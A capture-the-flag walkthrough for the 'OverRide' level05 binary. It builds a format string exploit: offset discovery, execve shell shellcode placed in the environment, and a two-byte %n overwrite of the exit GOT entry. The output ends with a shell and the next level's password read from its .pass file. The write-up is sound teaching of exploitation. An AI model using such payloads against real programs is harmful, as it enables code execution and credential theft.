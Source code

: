 ## WALKTHROUGH - LEVEL05

---

The program waits for an input, and uppercases every lowercase character in it.  
At the end, it passes our input to printf as the only argument, so we
should be able to use a format string attack.  

The **exploit** is as follow :
 - **Find the offset with %x**;
 - **Replace the exit@plt address with the start of our shellcode**.

---

We need to find the offset for the printf arguments:

```sh
level05@OverRide:~$ chmod 777 .
level05@OverRide:~$ python -c 'print "aaaa" + " %x"*12' > payload
level05@OverRide:~$ cat payload | ./level05
aaaa 64 f7fcfac0 f7ec3af9 ffffd5ef ffffd5ee 0 ffffffff ffffd674 f7fdb000 61616161 20782520 25207825
level05@OverRide:~$ python -c 'print "aaaa" + " %10$x"' > payload
level05@OverRide:~$ cat payload | ./level05
aaaa 61616161
```

As we can see, **printf** starts to read the arguments on the buffer at the **10th offset**.

---

We export our shellcode on the environment to avoid the lowercase/uppercase problem:

```sh
level05@OverRide:~$ export PAYLOAD=$(python -c 'print "\x90" * 30 + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

We then use gdb to find the address of our shellcode. When we look at our environment, we see our shellcode is on the 27th variable.

```gdb
(gdb) p *((char**)environ+27)
$6 = 0xffffdf5d "PAYLOAD=[SHELLCODE]"
(gdb) p *((char**)environ+27)+10
$7 = 0xffffdf67 "\220\220\220\220[SHELLCODE]"
```

The shellcode is at the address **0xffffdf67**.

---

We then need to find the address of the exit function on the .got.plt:

```gdb
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
```

The exit@plt jumps on the address **0x80497e0**.

---
For the exploit, we will use the **"two bytes write" method** since the shellcode address is a large number.

- For the **low address** at **0x80497e0**:  
We need to write **0xdf67 - 8** because we will write 2 addresses before, so 4 bytes each.

```gdb
(gdb) p 0xdf67-8
$2 = 57183
```

- For the **high address** at **0x80497e2**:  
We need to **substract the low address from the high address**:

```gdb
(gdb) p 0xffff-0xdf67
$6 = 8344
```

Now we only need to put our payload together:

```sh
level05@OverRide:~$ python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%57183x%10$n" + "%8344x%11$n"' > payload
level05@OverRide:~$ cat payload - | ./level05
[...]
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
